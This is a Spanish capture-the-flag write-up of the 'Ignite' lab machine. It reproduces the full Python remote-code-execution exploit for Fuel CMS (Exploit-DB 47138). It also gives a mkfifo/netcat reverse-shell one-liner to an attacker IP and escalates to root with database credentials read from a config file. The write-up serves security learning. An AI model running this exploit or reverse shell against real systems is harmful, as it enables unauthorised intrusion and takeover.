# Write-up Ignite

## Enumeración

### Escaneo inicial

Empiezo con un escaneo para identificar puertos, servicios y sistema operativo:

`nmap -sC -sV -O -T4 -p 1-1000 IP`

Puertos encontrados:

- 80/tcp HTTP - Apache 2.4.18



### Enumeración web

Al acceder a la web por HTTP veo la página principal de Fuel CMS.

La propia página muestra las credenciales por defecto para acceder al panel:

- Usuario: `admin`
- Password: `admin`



### Búsqueda de exploits

Como el servicio expuesto es Fuel CMS, busco vulnerabilidades conocidas en `searchsploit` y en Exploit-DB.

Encuentro un exploit público para Fuel CMS:

`https://www.exploit-db.com/exploits/47138`

También aparecen varios resultados relacionados en `searchsploit`.



## Explotación

### Ejecución remota de comandos en Fuel CMS

Decido usar el exploit de Exploit-DB. Copio el código en un archivo llamado `ignitex.py`, ajusto la URL de la máquina víctima y lo ejecuto con Python 2:

`python2 ignitex.py`

```
import requests
import urllib

URL = "http://IP-VICTIMA/"


def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start


while 1:
    xxxx = input('cmd:')
    url = URL+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    r = requests.get(url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print(r.text[0:dup])
```

El exploit abre una consola interactiva para ejecutar comandos en la máquina víctima.



En esta consola los comandos deben introducirse **entre comillas.** Por ejemplo:

`"id"`

Con esto confirmo ejecución de comandos como el usuario `www-data`.



### Reverse shell

Para trabajar con una shell más cómoda, dejo un listener abierto en mi máquina atacante:

`nc -lvnp 4445`

Después ejecuto una reverse shell desde la consola del exploit:

`"rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP-KALI 4445 > /tmp/f"`

Con esto recibo una reverse shell como `www-data`.



## Post-explotación

### Flag de usuario

Una vez dentro, localizo la flag de usuario en:

`/home/www-data/flag.txt`



### Enumeración local

Durante la enumeración reviso la configuración de la aplicación web. En Fuel CMS encuentro el archivo de configuración de base de datos:

`/var/www/html/fuel/application/config/database.php`



Al leerlo `cat database.php` aparecen credenciales reutilizables:

- Usuario: `root`
- Password: `mememe`



## Escalado de privilegios

### Mejora de la TTY

Al intentar cambiar al usuario `root` directamente con `su root`, la shell no permite trabajar correctamente porque no es una terminal interactiva.

Mejoro la TTY con Python:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Despues vuelvo a ejecutar:

`su root`

Uso la password encontrada en `database.php`:

`mememe`

Con esto consigo una shell como `root`.



### Flag de root

La flag de root se encuentra en:

`/root/root.txt`



## Resultado

Consigo acceso total a la máquina aprovechando una vulnerabilidad de ejecución remota de comandos en Fuel CMS. Primero obtengo ejecución como `www-data`, después lanzo una reverse shell y finalmente escalo a `root` reutilizando las credenciales encontradas en el archivo `database.php`.

## Resumen de comandos hasta root

- `nmap -sC -sV -O -T4 -p 1-1000 IP`
- Revisar la web en `http://IP`
- `searchsploit fuel cms`
- Descargar o copiar el exploit `https://www.exploit-db.com/exploits/47138`
- Editar `ignitex.py` con la URL de la máquina víctima
- `python2 ignitex.py`
- `"id"`
- `nc -lvnp 4445`
- `"rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP-KALI 4445 > /tmp/f"`
- `cat /home/www-data/flag.txt`
- `cat /var/www/html/fuel/application/config/database.php`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `su root`
- `cat /root/root.txt`
